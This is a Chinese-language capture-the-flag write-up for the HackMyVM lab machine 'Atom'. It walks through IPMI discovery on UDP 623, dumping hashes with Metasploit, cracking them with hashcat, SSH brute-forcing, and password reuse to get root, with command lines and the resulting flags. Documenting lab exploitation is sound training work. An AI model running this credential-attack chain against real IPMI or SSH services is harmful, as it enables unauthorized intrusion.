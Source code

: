 # Atom

2025.03.23 https://hackmyvm.eu/machines/machine.php?vm=Atom

[video](https://www.bilibili.com/video/BV1LooqYUEom/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

tcp 上没开放端口，udp 上开放了 623/udp open asf-rmcp 是一种 IPMI 协议：

```
sudo nmap -sU --min-rate 10000 --top-ports 2000 192.168.5.40
```

在 msf 中有这样的扫描模块：auxiliary/scanner/ipmi/ipmi_cipher_zero 确认存在漏洞之后，可以使用这个模块 dump 枚举出的用户的密码 auxiliary/scanner/ipmi/ipmi_dumphashes (参考链接 https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

```
Hash for user 'admin' matches password 'cukorborso'
```

使用获得的凭据进行 ssh 登陆，不行。在用上面的这个凭据，在获取一下 user list：

```
sudo apt install ipmitool
ipmitool -I lanplus -H 192.168.5.40 -U admin -P cukorborso user list|awk -F ' ' '{print $2}'|grep -v 'true' > name.txt
```

将获得的用户名和哈希保存到 dump 文件，进行处理：

```
cat dump|awk -F ' ' '{print $8}'|awk -F ':' '{print $2":"$3}' > hash1
```

然后用 hashcat 7300 模式进行破解：

```
hashcat -a 0 -m 7300 hash1 /usr/share/wordlists/rockyou.txt --potfile-disable
```

然后将结果保存，进行处理，拿到最后一个字段：

```
cat out|awk -F ':' '{print $3}' > pass
```

然后将上面获得的 user 和 pass 进行 ssh 爆破,找到 1 个登陆凭据：

```
[22][ssh] host: 192.168.5.40   login: onida   password: jiggaman
```

直接拿到 user flag:

```
onida@atom:~$ cat user.txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

在 /var/www/html 目录中发现 atom-2400-database.db ，查看其内容，爆破 user 表种 atom 用户的密码为 madison ，尝试用密码 madison 切换到 root，切换成功。

root flag:

```
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```
